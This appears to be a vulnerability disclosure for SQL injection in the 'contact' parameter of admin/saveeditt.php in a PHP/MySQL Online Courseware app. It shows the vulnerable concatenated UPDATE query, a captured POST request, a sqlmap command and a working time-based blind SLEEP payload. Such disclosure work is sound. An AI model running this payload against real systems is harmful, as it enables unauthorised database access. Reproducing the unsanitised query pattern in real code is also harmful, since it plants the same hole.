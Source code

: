 #### BUG_AUTHOR:LIU WEIYU
## Online Courseware - SQL Injection on (admin/saveeditt.php contact parameter) 
### Vendor Homepage:
https://www.sourcecodester.com/php/4818/online-courseware-using-phpmysql.html 
### Version:V1.0
### Tested on: PHP, Apache, MySQL
### Affected Page:
admin/saveeditt.php 

On this page, contact parameter is vulnerable to SQL Injection Attack 
### Source code(pcci/admin/saveeditt.php):
```
$contact=$_POST['contact'];
mysqli_query($conn,"UPDATE teacher SET fname='$fname', lname='$lname', address='$address', gender='$gender', email='$email', contact='$contact' WHERE id='$id'");
```
### Proof of vulnerability(Verify using the sqlmap tool after logining ):
#### Request:
```
POST /onlinecourseware/pcci/admin/saveeditt.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 213
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=sm0bljsdrcd3r9gqelkfs2sf73
Origin: http://localhost
Referer: http://localhost/onlinecourseware/pcci/admin/teacher.php
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

address=Bacolod+City&contact=2147483647&email=joshgayanelo%40gmail.com&fname=Josh11&gender=Male&id=1&lname=Gayanelo
```
#### -> sqlmap -r 1.txt (above request package) --batch
### Output:
```
---
Parameter: contact (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: address=Bacolod City&contact=2147483647' AND (SELECT 6393 FROM (SELECT(SLEEP(5)))MPOd) AND 'QgFe'='QgFe&email=joshgayanelo@gmail.com&fname=Josh11&gender=Male&id=1&lname=Gayanelo
---
```
